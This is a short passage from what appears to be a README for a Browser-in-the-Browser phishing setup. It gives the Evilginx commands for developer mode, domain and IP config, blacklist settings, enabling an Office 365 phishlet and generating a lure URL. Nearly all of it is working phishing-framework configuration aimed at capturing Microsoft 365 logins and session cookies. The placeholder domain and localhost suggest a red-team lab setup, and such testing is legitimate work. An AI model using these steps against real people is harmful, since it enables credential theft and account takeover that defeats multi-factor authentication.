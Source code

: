 Start Evilginx in developer mode (using tmux to avoid losing the session):

```
tmux new-session -s evilginx
```

```
cd ~/evilginx/
```

```
./evilginx -developer
```

(To re-attach to the tmux session use `tmux attach-session -t evilginx`)


Evilginx Config:

```
config domain fake.com
```

```
config ipv4 127.0.0.1
```


**IMPORTANT:** Set Evilginx Blacklist mode to NoAdd to avoid blacklisting Apache since all requests will be coming from Apache and not the actual visitor IP.

```
blacklist noadd
```



Setup Phishlet and Lure:

```
phishlets hostname O365 fake.com
```

```
phishlets enable O365
```

```
lures create O365
```

```
lures get-url 0
```


Copy the lure URL and visit it from your browser (use Guest user on Chrome to avoid having to delete all saved/cached data between tests).



# Useful Resources


Original iframe-based BITB by @mrd0x:
[https://github.com/mrd0x/BITB](https://github.com/mrd0x/BITB)
